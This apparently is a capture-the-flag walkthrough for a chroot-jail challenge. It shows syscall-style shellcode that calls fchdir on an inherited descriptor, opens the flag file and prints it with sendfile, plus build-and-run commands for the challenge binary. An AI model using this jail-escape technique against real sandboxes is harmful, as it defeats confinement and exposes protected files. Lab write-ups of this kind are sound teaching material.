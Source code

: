 This time, you should use the function `fchdir` instead of `linkat`.
From the Linux manual page, it is written as follows.

> fchdir() is identical to chdir(); the only difference is that the directory is given as an open file descriptor.

Use the following code to solve this problem.
```
fchdir(3);  # Change working directory into the top-level directory.
open("./flag", O_RDONLY);
sendfile(1, 4, 0, 0x80);
```

Running the following commands will lead you to the flag.
```
gcc -nostdlib -static shellcode.s -o shellcode-elf​
objcopy --dump-section .text=shellcode-raw shellcode-elf​
/babyjail_level6_teaching1 / < ~/shellcode-raw
```